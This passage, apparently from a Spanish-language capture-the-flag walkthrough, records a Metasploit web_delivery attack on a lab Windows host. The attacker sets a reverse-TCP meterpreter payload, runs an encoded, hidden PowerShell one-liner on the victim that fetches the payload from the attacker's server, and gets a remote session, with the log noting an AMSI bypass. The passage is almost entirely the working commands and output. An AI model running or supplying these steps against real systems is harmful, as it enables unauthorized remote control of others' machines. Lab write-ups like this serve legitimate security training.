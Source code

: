 ```bash
   URIPATH                   no        The URI to use for this exploit (default is random)
.
Payload options (python/meterpreter/reverse_tcp):
.
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
.
Exploit target:

   Id  Name
   --  ----
   0   Python
```

* Aplicando Configuraciones:
```bash
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(multi/script/web_delivery) > set SRVHOST Tu_IP
SRVHOST => Tu_IP
```

* Ejecutando modulo:
```bash
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Using URL: http://Tu_IP:8080/lCUF1ttGN
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e WwBOAGUA...
```

* Ejecutando payload en máquina víctima:
```bash
PS C:\windows\system32\inetsrv>powershell.exe -nop -w hidden -e WwBOAGUAdAAuA...
```

* Obteniendo sesión de **meterpreter**:
```bash
[*] 10.10.10.180     web_delivery - Delivering AMSI Bypass (1414 bytes)
[*] 10.10.10.180     web_delivery - Delivering Payload (3696 bytes)
[*] Sending stage (200774 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.180:49823) at 2023-03-26 20:47:31 -0600
.
msf6 exploit(multi/script/web_delivery) > sessions
.
Active sessions
===============
.
  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x64/windows  IIS APPPOOL\DefaultAppPool @ REMOTE  Tu_IP:4444 -> 10.10.10.180:49823 (10.10.10.180)
```

